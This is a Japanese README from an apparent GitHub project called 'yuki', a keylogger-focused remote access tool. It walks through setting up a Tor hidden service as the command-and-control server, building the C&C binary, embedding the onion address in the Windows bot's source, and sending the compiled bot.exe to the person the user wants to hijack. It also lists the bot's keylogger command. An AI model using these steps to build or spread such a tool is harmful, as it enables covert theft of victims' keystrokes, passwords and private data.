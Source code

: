 # yuki
keylogger搭載してるというか、それに特化したハッキングツール。<br>

ちなみに、カレントディレクトリの表示は動作確認用

## 動作環境
### C&C
* Linux (Debian)
### Bot
* Windows 10

## 注意
使用するとき、仮想マシンが必須になるかもしれません。<br>
あと、多少のバグは許して...

## コンパイル
WindowsとLinuxと同時に使って環境構築をしていきます。<br>
まずは、Linuxから設定をしていきます。<br>

Torをインストール
```
$ sudo apt install tor
```
インストールが終わったらtorrcを編集します。
```
$ sudo vi /etc/tor/torrc
```
ソースコードの関係上以下の通りに書き換えてください。
```
HiddenServiceDir /var/lib/tor/hidden_service/
HiddenServicePort 80 127.0.0.1:8080
```
ここでほぼほぼLinuxでの設定は完了します。<br>
では、以下のコマンドを実行しちゃって終わらせちゃいましょう。
```
$ bash build.sh
```
ちなみに、onionサイトのドメイン名を確認するには
```
$ sudo cat /var/lib/tor/hidden_service/hostname
```

<br>
次は、Windowsにうつって環境構築していきます。<br>
ぶっちゃけて言うとクロスコンパイラ使えば問題ないと思いますが、めいんどいので今回は解説しません。<br>

まず、botというディレクトリのなかのmain.cppを開きます。<br>

そしたら、xxxxxxxxxxxxxxxxxxxxxxxxxxx.onionをcncサーバのドメイン名に書き換えてください。
```c
#define cnc_onion_server    "xxxxxxxxxxxxxxxxxxxxxxxxxxx.onion"
```
終わったらbuild.batを実行してコンパイル終了です。

## 使い方
必ず最初にLinuxでcnc.outを実行してください。
```
$ ./cnc.out
```
そしたら、コンパイルしたbot.exeを乗っ取りたい相手に送ってください。<br>
<br>
乗っ取りに成功しましたら`help`をつかってどのコマンドが使えるか確認することができます。
```
root@cnc:~$ help
Command List
       pwd       - view current directory
       keylogger - get the characters you entered
```
keyloggerとコマンドを使った場合、Ctrl+Cで閉じないと終わる方法がありませんので注意。<br>
(あとで、C&Cサーバの起動に時間がかかることには目を瞑って...)

## 参考資料
[RAT](https://github.com/ware255/RAT) <br>
[ Working with Tor (C/C++) ](https://gist.github.com/anhldbk/f62fbe5e5a0e48740c6959e3e0907c81) <br>
[ Simple keylogger in C++ ](https://gist.github.com/cdohara/99f3ac257b6f98d723818aedd1c39a4e)
